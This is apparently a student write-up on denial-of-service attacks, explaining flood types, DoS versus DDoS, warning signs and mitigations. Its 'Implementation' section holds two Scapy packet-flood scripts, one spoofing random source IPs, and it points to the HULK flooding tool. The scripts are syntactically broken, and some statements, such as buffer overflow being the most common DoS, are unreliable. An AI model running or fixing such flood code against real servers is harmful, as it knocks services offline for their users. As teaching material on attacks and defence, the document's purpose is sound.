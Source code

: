 # Denial-of-Service (DoS) attack

*Zhen Meng, Zhixin Han*

## Background of DoS

A Denial-of-Service (DoS) attack is a malicious, targeted attack that floods a network with false requests in order to disrupt business operations.

![alt text](what-is-ddos-botmaster.png)

## DoS Attack in Real Life

DoS attacks can cost an organization both time and money, because their resources and services are inaccessible during that time. 
Not only will you be put out of action for quite a while, but a successful DoS attack can also cause the systems to fail. 

Unlike cyberattacks that steals sensitive information or money, initial DDoS attacks are launched to make websites inaccessible to their users. DoS and DDoS attacks are also used to draw attention away so that hackers can launch secondary attacks elsewhere. [1]

A famous example of DDOS attack happened to AWS, it was hit by a large DDoS attack in February 2020. The attack lasted for three days and peaked at 2.3 terabytes per second. [Click here for more information](https://www.a10networks.com/blog/aws-hit-by-largest-reported-ddos-attack-of-2-3-tbps/)

## Types of DoS attack

Generally, DoS attack fall in two categories, some of them crash web-based services and others flood the service instead. Within those two categories, there are many different subgroups, they varies based on the methods of attackers, the equipment being targeted and so on. [2]

### Buffer Overflow attacks

This is the most common form of DoS attack. A buffer overflow type of attack can cause a machine to consume all available hard disk space, memory, or CPU time. The memory storage holds temporary data being transferred will alse be consumed.

![alt text](buffer-overflow.png)

### Flood attacks

By saturating a targeted server with an overwhelming amount of packets, a malicious actor is able to oversaturate server capacity, resulting in denial-of-service. 

- ICMP Floods

Also called smurf or ping attacks. It focus on exploiting misconfigured network devices. In these attacks, attackers send spoofed packets or the false IP addresses that pings every computer on the targeted network. The network will face a surge in traffic, the system becomes flooded with responses from the malicious packet.

- SYN Floods

This type of folld attack exploits the Transmission Control Protocol (TCP) handshake, which is used for the TCP network to create a connection with a local host/server. In a SYN flood, a connection request to a server, but the handshake will be left imcomplete. These requests keep the host in an occupied status. Legitimate users will be prevented from connecting to the network when all the ports are saturated. Below is an illustration of TCP handshake.[1]

![alt text](TCP-connection-1.png)


## DoS attack vs. DDoS attack

The primary distinction between them is where the attack originated. A DDoS attack is a coordinated attack launched from various locations by multiple systems at the same time, whereas a DoS attack is a single attack.DDoS attacks are the most powerful and difficult to detect internet attacks. The reason  is that they are introduced from multiple locations in order to hide their identities and prevent the victim from identifying the main source of the attack. As a result, distinguishing between genuine and fake network traffic is impossible.

![alt text](output-onlinepngtools.png)

## Identify DoS Attack


**Common indicators:**

- Slow network performance for common tasks 

All kinds of slow network performances for normal tasks like logging in to an account, downloading files,etc.

- Inability to access online resources

The inability to access online recources like health record and educational resources.

- An interruption or loss in connectivity

The interruption or loss in connectivity of multiple devices on the same network. [2]

## Methods to Reduce the Risk of a DoS attack

**Avoid beingpart of the attack:**

- Enroll in a DoS protection service

- Create a disaster recovery plan

**Strengthen your devices:**

- Install and maintain antivirus software

- Install a firewall

- Evaluate security settings and follow good security practices [3]

## DoS attack Implementation 

### Single IP single port

A large number of packets are sent to web server by using _single IP_ and from _single port number_. 

Using a for loop a large number of packets are sending to web server using single IP from single port number. Normally,it is a low level attack to test the web server’s behavior. [4]

```
from scapy.all import *
source_IP = input("Enter IP address of Source: ")
target_IP = input("Enter IP address of Target: ")
source_port = int(input("Enter Source Port Number:"))
i = 1

while True:
   IP1 = IP(source_IP = source_IP, destination = target_IP)
   TCP1 = TCP(srcport = source_port, dstport = 80)
   pkt = IP1 / TCP1
   send(pkt, inter = .001)
   
   print ("packet sent ", i)
      i = i + 1
```

### Multiple IP multiple port 

A large number of packets are sent to web server by using _multiple IPs_ and from _multiple ports_. 

Using while loop to creat multiple IP addresses and ports to send large numbers of packets simutaneously to attack victims’ Ip address.[4]


```
Import random
from scapy.all import *
target_IP = input("Enter IP address of Target: ")
i = 1

while True:
   a = str(random.randint(1,254))
   b = str(random.randint(1,254))
   c = str(random.randint(1,254))
   d = str(random.randint(1,254))
   dot = “.”
   Source_ip = a + dot + b + dot + c + dot + d
   
   for source_port in range(1, 65535)
      IP1 = IP(source_IP = source_IP, destination = target_IP)
      TCP1 = TCP(srcport = source_port, dstport = 80)
      pkt = IP1 / TCP1
      send(pkt,inter = .001)
      
      print ("packet sent ", i)
         i = i + 1
```

## DoS Tools and Performance


### HULK

This tool successfully avoids caching by attacking the server directly with unique packets. HULK makes each request unique, unlike many other tool that transmit packets in a predictable pattern, making the attack easier to detect and halt. This program also allows you to securely carry out the  attack while maintaining control to stop it at any point.Now we are attak an ip address, using wireshark to monitor the traffic, there are continuity of packets sending to the source IP. [5]

[Hulk through the Repo](https://github.com/grafov/hulk)

![This is an image](hulk-tool.png)

### Wireshark

![This is an image](wire-shark.jpg)


## References

[1]: WHAT ARE DENIAL-OF-SERVICE (DOS) ATTACKS? [Link](https://spanning.com/blog/denial-of-service-attacks-web-based-application-security-part-7/).

[2]: Denial-of-Service (DoS) Attacks — Web-based Application Security, Part 7 [Link](https://www.crowdstrike.com/cybersecurity-101/denial-of-service-dos-attacks/).

[3]: Understanding Denial-of-Service Attacks [Link](https://www.cisa.gov/uscert/ncas/tips/ST04-015).

[4]: DoS & DDoS attack [Link](https://www.tutorialspoint.com/python_penetration_testing/python_penetration_testing_dos_and_ddos_attack.htm).

[5]: Hulk DDoS Tool : Complete Installation & Usage with Examples [Link](https://allabouttesting.org/hulk-ddos-tool-complete-installation-usage-with-examples/).
